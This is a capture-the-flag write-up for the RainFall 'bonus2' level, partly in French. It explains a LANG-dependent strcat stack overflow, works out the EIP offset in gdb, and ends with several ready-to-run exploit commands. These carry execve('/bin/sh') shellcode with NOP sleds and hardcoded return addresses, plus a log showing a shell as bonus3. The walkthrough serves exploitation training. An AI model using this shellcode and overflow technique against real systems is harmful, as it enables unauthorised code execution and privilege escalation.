 # bonus02

The program take...

The program has "GCC stack protector support" enabled, so we run `gdb` with `set exec-wrapper env -u LINES -u COLUMNS`.

If `argc` is not equal to 3, the program exit.

In `greetuser` function, we have a `strcat` on a local buffer of 72 bytes. The string concatened with this buffer depends on the environment variable `"LANG"`:

- If `LANG` = `fi`, the concatened string will be "Hyvää päivää " (18 bytes)

- Else if `LANG` = `nl`, the concatened string will be "Goedemiddag! " (13 bytes)

- Else the concatened string will be "Hello " (6 bytes)

In `greetuser` function, we can see that the local buffer begin 76 bytes before the `eip` address:

```bash
Breakpoint 2, 0x080484ee in greetuser ()
(gdb) x $ebp-0x48
0xbffffd30:     134513212
(gdb) x $ebp
0xbffffd78:     -1073742280
(gdb) x $ebp+4
0xbffffd7c:     134514224
(gdb) x/x $ebp+4
0xbffffd7c:     0x08048630
(gdb) i f
Stack level 0, frame at 0xbffffd80:
 eip = 0x80484ee in greetuser; saved eip 0x8048630
 called by frame at 0xbffffe40
 Arglist at 0xbffffd78, args: 
 Locals at 0xbffffd78, Previous frame's sp is 0xbffffd80
 Saved registers:
  ebp at 0xbffffd78, eip at 0xbffffd7c
(gdb) p/d 0xbffffd7c - 0xbffffd30
$2 = 76
```

In the `main` function, we also see that only 40 bytes from the 1st parameter and 32 bytes from the 2nd parameter are copied. So 8 bytes must be added to overwrite `eip`.

- If the `LANG` variable is equal to `fi`, the string added takes 18 bytes. We need to pad with 18 bytes in the 2nd parameter (76 - 18 - 40)

- Else if the `LANG` variable is equal to `nl`, the string added takes 13 bytes. We need to pad with 23 bytes in the 2nd parameter (76 - 13 - 40)

- Else the string added is 6 bytes, that is too short to overwrite `eip`

We try to overwrite `eip`:

```bash
(gdb) set exec-wrapper env -i LANG="fi"
(gdb) r $(python -c 'print "\x41" * 40') $(python -c 'print "\x41" * 18 + "BBBB"')
Starting program: /home/user/bonus2/bonus2 $(python -c 'print "\x41" * 40') $(python -c 'print "\x41" * 18 + "BBBB"')
Hyvää päivää AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb) set exec-wrapper env -i LANG="nl"
(gdb) r $(python -c 'print "\x41" * 40') $(python -c 'print "\x41" * 23 + "BBBB"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/user/bonus2/bonus2 $(python -c 'print "\x41" * 40') $(python -c 'print "\x41" * 23 + "BBBB"')
Goedemiddag! AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
```

Nous avons donc plusieurs solutions pour ce challenge:

export EXPLOIT=$(python -c "print '\x90' * 400 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'") && export LANG="fi" && ./bonus2 $(python -c 'print "A" * 4000') $(python -c 'print "B" * 18 + "\x78\xf7\xff\xbf"')

export LANG="fi" && ./bonus2 $(python -c 'print "\x90" * 17 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"') $(python -c 'print "B" * 18 + "\xff\xf4\xff\xbf"')

export LANG="nl" && ./bonus2 $(python -c 'print "A" * 4000') $(python -c 'print "B" * 23 + "\x78\xf7\xff\xbf"')

export LANG="nl" && ./bonus2 $(python -c 'print "\x90" * 17 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"') $(python -c 'print "B" * 23 + "\xff\xf4\xff\xbf"')

bonus2@RainFall:~$ export EXPLOIT=$(python -c "print '\x90' * 400 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'")

bonus2@RainFall:~$ ./bonus2 $(python -c 'print "A" * 40') $(python -c 'print "B" * 18 + "\x78\xf7\xff\xbf"')Hyvää päivää AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBB���
$ whoami
bonus3
$ echo "You are the bonus3 user"
You are the bonus3 user
$


Premier argument du main dans le main: 0xbfffd836
	Dans la fonction greetuser: 0xbfffd5a0

Le tout dans greetuser: 0xbffff462

0xbffff4f0


r $(python -c 'print "A" * 40') $(python -c 'print "B" * 18 + "\x1e\xf5\xff\xbf" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"')

